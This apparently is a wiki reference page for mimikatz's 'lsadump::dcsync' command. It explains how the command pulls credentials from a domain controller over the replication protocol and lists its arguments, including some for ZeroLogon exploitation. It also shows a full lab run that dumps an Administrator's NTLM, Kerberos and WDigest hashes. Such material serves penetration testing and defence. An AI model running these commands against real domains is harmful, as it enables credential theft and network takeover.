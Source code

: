 # dcsync

`lsadump::dcsync` can be used to do a [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) and retrieve domain secrets. This command uses the Directory Replication Service Remote protocol ([MS-DRSR](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47?redirectedfrom=MSDN)) to request from a domain controller to synchronize a specified entry. It's the same protocol that domain controllers are using between them. It has the following command line arguments:

* `/all` : It will DCSync the entire active directory database
* `/user`: perform syncing only for the specified user
* `/export` : Save the output
* `/csv` : export to csv
* `/dc` or `/kdc`: Specify the Domain Controller to connect to and gather data
* `/guid` : The GUID of the object to sync credentials. It can be obtained with [`net::trust`](../net/trust.md).

The following command line arguments of `lsadump::dcsync` can be used for [ZeroLogon](https://www.thehacker.recipes/ad/movement/netlogon/zerologon) exploitation:

* `/authuser`: the domain controller's machine account
* `/authdomain`: the NetBIOS of the domain
* `/authpassword`: it has to be set to blank `""`
* `/authntlm`: user NTLM authentication

```
mimikatz # lsadump::dcsync /domain:hacklab.local /user:hacklab\Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'hacklab\Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 01:00:00
Password last change : 24/09/2021 16:24:41
Object Security ID   : S-1-5-21-2725560159-1428537199-2260736313-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 0: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 1: a06b19f88e0432e937a67fb6848e56bd
    lm  - 0: b28dd7b27e8cf0d2293087d70fc35769

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a367950918bb2ccabb50ab88e8ffb09f

* Primary:Kerberos-Newer-Keys *
    Default Salt : HACKLAB.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 0c1230dca827b75e872b5e5601eb6b76016412b4dd96b4aeb99a59a43490182c
      aes128_hmac       (4096) : e52cb5008be21bfe2e8429c74659d925
      des_cbc_md5       (4096) : 4f45e3a7cd34bc83

* Primary:Kerberos *
    Default Salt : HACKLAB.LOCALAdministrator
    Credentials
      des_cbc_md5       : 4f45e3a7cd34bc83

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  6ca5712f90260e1eb3abd67598e6750a
    02  8dffe5b3aefb6e5ae29e628d2ee96a45
    03  17be46dc199faf9b0bbda5bad36e3d6e
    04  6ca5712f90260e1eb3abd67598e6750a
    05  6fc635e3af189352029ce83a2219fa3c
    06  510782016677b838b585d4f04d23f98a
    07  b358628b75f049cf9e78f5e49bc560a2
    08  c40c4076a86fbf852da4cb4bfa721d74
    09  bf6734b4833bd61834c48fa6533acb9a
    10  3c148f6edbc99e9a489d72fb809ee66b
    11  0a100f8d2212e336adf8c429722d3a8c
    12  c40c4076a86fbf852da4cb4bfa721d74
    13  e649568c12076eba2026544142dc74fd
    14  3ef797336ba53aaf034774a4fe8b06dc
    15  797740715ee8fa059260c583fef36d5e
    16  84aa405aaf242960160143fa357a3c7f
    17  bb9ea6391483fa61fba5dced60ea039c
    18  3871d21dfa14ede3c56b04ffc5970b1c
    19  8e7946ea6e13210cb3ded49e2ff501fa
    20  7480b0f8878e31ee2dcf3507fc2dbf54
    21  2f7b7c9a2ac171f4417a38a52ef89989
    22  3483e4a4ca60cd4b3d0bc66dc900f175
    23  e1fa4a98cdab50c99934120090885d90
    24  e16cb6277ed064c290498037f5dfe5b3
    25  d6b096727b0d7a39cae06afd874247a9
    26  f7a5f95bb7f0d0be1d8fe247b875cb29
    27  e781f3584bf099e0a485657e832c6e74
    28  acb55c0b8828a6660b166fc649708c1c
    29  8fd36767c074ca738a81d5c7298295c3
```

{% hint style="warning" %}
When running `lsadump::dcsync` directly on the domain controller, it is not needed to specify the domain in the`/user`.

`mimikatz # lsadump::dcsync /user:Administrator /domain:hacklab.local`
{% endhint %}
